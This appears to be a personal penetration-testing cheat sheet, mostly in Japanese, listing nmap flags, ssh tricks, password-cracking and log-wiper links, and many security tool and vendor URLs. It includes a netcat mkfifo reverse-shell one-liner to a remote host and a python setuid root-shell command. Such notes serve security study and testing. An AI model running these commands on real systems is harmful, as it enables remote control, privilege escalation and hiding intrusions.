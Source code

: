 # Tools

### nmap

https://nmap.org/

https://orebibou.com/ja/home/201506/20150603_001/

スクリプト：/usr/share/nmap/scripts

```bash
# 頻出ポートの一覧 (上位100)
nmap --top-ports 100 -oG - -v -sSU

# ポートスキャンしない：-Pn
# 名前解決しない：-n
# TCP -sT
# SYN -sS
# UDP -sU

# cheat sheet
curl cheat.sh/nmap
```

### ssh

リモートホストにコピー

```bash
cat file1 | ssh -f user@server 'cd $HOME; cat > file1'
```

踏み台設定

```txt
cat ~/.ssh/config
Host host2
     ProxyCommand ssh host1 nc %h %p
```

### getcap

```bash
getcap -r / 2>/dev/null
```

### password

- 辞書ファイル、パスワードリスト
  - https://download.openwall.net/pub/wordlists/
- password cracker
  - https://www.openwall.com/john/
  - https://github.com/vanhauser-thc/thc-hydra
- password recovery
  - https://en.wikipedia.org/wiki/Cain_and_Abel_(software)

### log wipers

https://packetstormsecurity.com/UNIX/penetration/log-wipers

```bash
# current login users (utmp)
who
w

# login users info (wtmp)
last
ac -p

# last login users (lastlog)
lastlog
```

### netcat

```bash
rm /tmp/pipe; mkfifo /tmp/pipe; cat /tmp/pipe|/bin/sh -i 2>&1|nc 10.0.0.189 1234 > /tmp/pipe
```

### Privilege escalation

```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### POC Tools

https://github.com/mbechler/marshalsec

### Linux

https://access.redhat.com/documentation/ja-jp/red_hat_enterprise_linux/7/html/security_guide/sec-using-aide

### Services & Apps

https://www.crowdstrike.com/

https://chronicle.security/

https://www.fireeye.com/

https://www.darktrace.com/

https://www.blackberry.com/

https://www.menlosecurity.com/

https://www.shodan.io/

https://app.netlas.io  

[Finding Vulnerable Systems Across the Internet with Netlas.io](https://www.hackers-arise.com/post/open-source-intelligence-osint-finding-vulnerable-systems-across-the-internet-with-netlas-io)

https://www.exabeam.com/

https://www.adaptive-shield.com/

https://regexr.com/

https://houdini.secsi.io/

https://github.com/Datadog/stratus-red-team/

https://snyk.io/

https://www.cisa.gov/free-cybersecurity-services-and-tools

https://www.blueteamsacademy.com/top20/

### OSS

https://github.com/awslabs/git-secrets

https://github.com/sobolevn/git-secret

https://github.com/optiv/ScareCrow

https://github.com/cytopia/pwncat

https://github.com/Cisco-Talos/clamav

https://github.com/trufflesecurity/truffleHog

https://github.com/tillson/git-hound

https://github.com/decalage2/oletools

https://github.com/decalage2/ViperMonkey

https://github.com/DidierStevens/DidierStevensSuite/blob/master/oledump.py

https://github.com/DidierStevens/DidierStevensSuite/blob/master/zipdump.py

https://github.com/makenowjust-labs/recheck

https://github.com/KathanP19/HowToHunt

https://github.com/bridgecrewio/checkov

https://github.com/Lissy93/personal-security-checklist

https://github.com/guardrailsio/awesome-golang-security

https://github.com/decalage2/awesome-security-hardening

https://github.com/curiefense/curiefense

https://github.com/containers/bubblewrap
